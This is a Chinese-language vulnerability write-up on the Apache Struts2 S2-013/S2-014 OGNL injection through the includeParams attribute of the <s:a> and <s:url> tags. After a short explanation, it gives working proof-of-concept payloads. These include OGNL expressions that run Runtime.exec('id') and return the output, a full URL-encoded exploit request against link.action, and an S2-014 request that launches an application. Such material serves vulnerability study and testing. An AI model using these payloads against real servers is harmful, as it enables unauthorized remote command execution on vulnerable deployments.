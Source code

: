 ## 原理与测试

Struts2 标签中 `<s:a>` 和 `<s:url>` 都包含一个 includeParams 属性，其值可设置为 none，get 或 all，参考官方其对应意义如下：

1. none - 链接不包含请求的任意参数值（默认）
2. get - 链接只包含 GET 请求中的参数和其值
3. all - 链接包含 GET 和 POST 所有参数和其值

`<s:a>`用来显示一个超链接，当`includeParams=all`的时候，会将本次请求的GET和POST参数都放在URL的GET参数上。在放置参数的过程中会将参数进行OGNL渲染，造成任意命令执行漏洞。

任意命令执行POC：

```plain
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println(#d),#out.close())}

// 或

${#_memberAccess["allowStaticMethodAccess"]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}
```

如：`http://your-ip:8080/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec('id').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('dbapp%3D'%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D`

![img](assets/1670312032865-d3ad27a3-ce4e-438c-bea5-bbac5b19ba0b.png)

S2-014 是对 S2-013 修复的加强，在 S2-013 修复的代码中忽略了 ${ognl_exp} OGNL 表达式执行的方式，因此 S2-014 是对其的补丁加强。

```plain
http://localhost:8080/S2-013/link.action?xxxx=%24%7B%28%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%29%28%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%29%28@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29%29%7D
```
